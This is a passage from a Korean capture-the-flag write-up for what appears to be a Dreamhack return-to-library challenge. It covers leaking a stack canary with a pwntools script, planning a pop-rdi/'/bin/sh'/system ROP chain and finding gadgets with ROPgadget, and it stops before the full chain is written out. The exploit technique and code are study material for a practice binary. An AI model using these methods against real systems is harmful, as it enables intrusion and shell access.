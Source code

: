 0x00007fffffffe070 값이 무엇인지는 모르겠지만 일단 카나리(0x4e1c8621c3934600)는 0x7fffffffdf78에 즉 rbp-0x08에 저장되어있는 것을 볼 수 있다.

![스택구조.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fc11a08b-a8ef-437b-98a5-e756f0067236/%EC%8A%A4%ED%83%9D%EA%B5%AC%EC%A1%B0.png)

이러한 형태의 스택 구조로 이루어져 있는것을 확인할 수 있다. 그러면 카나리값을 leak하려면 총 0x38바이트+0x1바이트인 0x39바이트를 넣어서 카나리 값을 얻어내면 된다. 

```python
from pwn import *

host="host3.dreamhack.games"
port=10252

p=remote(host,port)
canary_payload=b'A'*0x39

p.sendlineafter("Buf: ",canary_payload)
p.recvuntil(canary_payload)
canary=p64(u64(b'\x00'+p.recvn(7)))

```

그러면 카나리 값을 구하고 나면 어떻게 익스플로잇을 할까?

쉘을 얻는 것이 목적이므로 system(”/bin/sh”)를 실행시키면 된다. system 함수를 실행시킬 수 있는 이유는 코드에서 system("echo 'system@plt"); 가 존재해서 system@plt의 주소를 알 수 있으므로 system 함수를 호출할 수 있다. 

호출 규약에 따르면 x64 환경에서는 arg0이 rdi이다. 

![호출규약.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/22c66913-e6a3-40a5-bce6-83a59d944de4/%ED%98%B8%EC%B6%9C%EA%B7%9C%EC%95%BD.png)

즉 rdi에 (”/bin/sh”)를 넣고 system함수를 실행시켜주면 system(”/bin/sh”)가 실행된다. 이를 위해서는 pop rdi; ret의 가젯이 필요하다.

즉 주소를 덮어씌울때 다음과 같이 덮어씌워주면 익스플로잇이 가능하다.

pop rdi; ret의 주소

“/bin/sh”의 주소

system 함수의 plt 주소

그럼 pop rdi; ret 가젯을 찾기 위해서 ROPgadget을 사용하였다.

```python
┌──(root💀kali)-[~/바탕화면/return_to_library]
└─# ROPgadget --binary ./rtl --re "pop rdi"
Gadgets information
============================================================
0x0000000000400853 : pop rdi ; ret

Unique gadgets found: 1
```

--re 옵션을 이용하여 정규표현식으로 나오게 하였고 “pop rdi”가 포함된 가젯만 나오도록 하였다. 근데 이 옵션이 기억이 안나면 grep을 이용하는 방법도 있다.

```python
┌──(root💀kali)-[~/바탕화면/return_to_library]
└─# ROPgadget --binary ./rtl | grep "pop rdi"
0x0000000000400853 : pop rdi ; ret

```
